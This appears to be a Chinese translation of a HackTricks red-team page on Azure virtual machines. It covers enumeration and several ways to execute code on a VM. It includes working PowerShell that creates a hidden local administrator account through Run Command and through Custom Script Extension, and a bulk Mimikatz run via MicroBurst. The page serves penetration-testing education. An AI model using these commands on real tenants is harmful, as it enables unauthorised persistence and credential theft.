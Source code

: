 # Az - 虚拟机与网络

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 虚拟机是 Azure 提供的几种类型的 [按需、可扩展计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 之一。通常，当您需要对计算环境有比其他选择更多的控制时，您会选择虚拟机。本文提供了在创建虚拟机之前应考虑的事项、如何创建虚拟机以及如何管理虚拟机的信息。

## Azure 网络信息

Azure 网络包含 **不同的实体和配置方式。** 您可以在以下内容中找到不同 Azure 网络实体的简要 **描述、** **示例** 和 **枚举** 命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** 提供了一种安全、完全托管的 RDP（远程桌面协议）和 SSH（安全外壳）访问解决方案，通过 Azure 门户通过 SSL 进行访问。它集成在 Azure 虚拟网络中，允许使用私有 IP 进行 RDP 和 SSH 连接到虚拟机，避免了公共 IP 的需求。这使其成为一种比传统方法更安全、更方便的替代方案，传统方法涉及公共 IP 分配和 NSG 规则配置以访问虚拟机。开发人员和 IT 人员可以通过他们的网页浏览器安全地从 Azure 门户访问虚拟机，从而简化了开发和测试环境的过程。

要列出您订阅中的所有 Azure Bastion 主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## 虚拟机枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在虚拟机中进行AAD登录**

可以允许通过AzureAD认证的用户访问。例如，尝试访问一个**linux虚拟机**：`ssh username@azure-corp.com@1.1.1.1`（重要的是**使用登录时使用的azurecorp的电子邮件**），你可能会遇到如下错误： 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照这些说明**前往 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，您将能够通过 SSH 连接（如果该用户具有足够的权限：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure 虚拟机 (VM) 扩展是 **小型应用程序**，用于在 **Azure VMs** 上提供部署后配置和自动化 **任务**。例如，如果虚拟机需要软件安装、杀毒保护或在其中运行脚本的能力，您可以使用 VM 扩展。

因此，如果您有权限进行写入，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) 是一个类似于 Ansible 的 PowerShell 工具，用于通过代码设置主机。DSC 与 Azure 集成，允许上传特定的配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure 中的 DSC 扩展可以执行符合某些格式标准的文件中的命令，即使语法不符合 DSC 标准，如提供的图示所示。

这些命令的执行是通过 Az PowerShell 中的 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 函数来实现的。要求包括一个定义了函数的 **.PS1** 文件，并且该文件必须被压缩成 **.zip** 文件。尽管语法可能不准确，代码仍然会执行。然而，扩展会将执行状态标记为“失败”，并且由于状态被失败消息覆盖，命令的输出将不可见。

### VM Application Definitions

VM Application Definitions 允许将版本化的应用程序重复部署到 Azure VM。此资源支持跨 VM 的应用程序部署和更新。要设置此功能，需要几个步骤，涉及 Az PowerShell 中的命令，如 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`**。

通过这种方法执行应用程序或命令涉及 **"VMAppExtension"**，该扩展在应用程序应用到 VM 时自动安装。扩展从指定的 URI 检索文件，并将其命名为与应用程序完全相同，不带扩展名。为了正确执行文件，REST API 调用中的 "ManageActions" 字段必须配置为使用适当的扩展名重命名文件。此方法的设置完成后，将类似于提供的图示所示的结构。

然而，这种执行方法相对较慢，执行一个应用程序或命令大约需要 3-4 分钟。与此过程相关的文件存储在特定目录中（应用程序副本在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行状态在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

这两种技术提供了在 Azure 环境中执行命令和部署应用程序的独特方式，各自具有不同的要求、步骤和考虑事项。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) 是 Azure 中的一项功能，允许在指定 HWG 的 Azure 虚拟机 (VM) 上执行在自动化帐户中配置的 Runbook。此执行通过安装在 VM 上的扩展来实现，该扩展将 Runbook 代码部署到 VM。此过程的一个重要方面是，实际凭据在执行中并不是一个因素，因为代码以提升的权限运行，具体为 **SYSTEM** 或 root，如提供的图示所示。

对于使用 Windows 10 VM 的用户，一个关键细节是必须为 Runbook 指定 PowerShell 版本。应设置为以 PowerShell 版本 5.1 而不是 7.1 运行。这个要求源于 PowerShell 7.1 在这些 VM 上不是默认安装的，如果指定版本 7.1，则会导致脚本执行失败。

Azure 的这一功能提供了一种强大的方法，用于在混合环境中自动化和管理任务，允许在 Azure VM 上集中管理和执行任务。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
